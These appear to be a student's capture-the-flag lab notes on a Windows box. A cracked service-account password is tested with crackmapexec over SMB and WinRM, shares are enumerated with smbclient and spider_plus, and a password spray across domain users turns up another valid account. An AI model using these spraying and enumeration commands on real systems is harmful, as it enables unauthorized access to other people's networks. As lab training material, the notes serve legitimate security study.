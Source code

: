 Cracked hash: `S@Ss!K@*t13`

![[Pasted image 20250113214102.png]]
Testing these creds with #crackmapexec 

`cme smb 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13'`

![[Pasted image 20250113214331.png]]

Try winrm 

`cme winrm 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13'`

![[Pasted image 20250113214425.png]]
Nope. 

Checking smb shares

`cme smb 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13' --shares`

![[Pasted image 20250113214518.png]]

Users and web are non-default = interested in enumerating these more. 

`smbclient -U 'svc_apache' //10.10.11.187/shared`

![[Pasted image 20250114190948.png]]
Users share has stuff
`smbclient -U 'svc_apache' //10.10.11.187/Users`
![[Pasted image 20250114191028.png]]
Also checking out Web share to see if there's a config file. 

`smbclient -U 'svc_apache' //10.10.11.187/Web`

Run `spider_plus` module in crackmapexec to see the files in users.

`cme smb 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13' -M spider_plus --spider users`

![[Pasted image 20250114191705.png]]
This enumerates all the shares. 

Using #jq to view the output and list the files. Nothing interesting though. 

Move to enumerating users on the box with #crackmapexec 

`cme smb 10.10.11.187 -u 'svc_apache' -p 'S@Ss!K@*t13' --users`

![[Pasted image 20250114203225.png]]

Can output this to a `users.txt` file.

Use awk and grep to clean up file. 

Use #crackmapexec to spray usernames.

`cme smb 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue-on-success

Found more valid creds this way for `S.Moon`
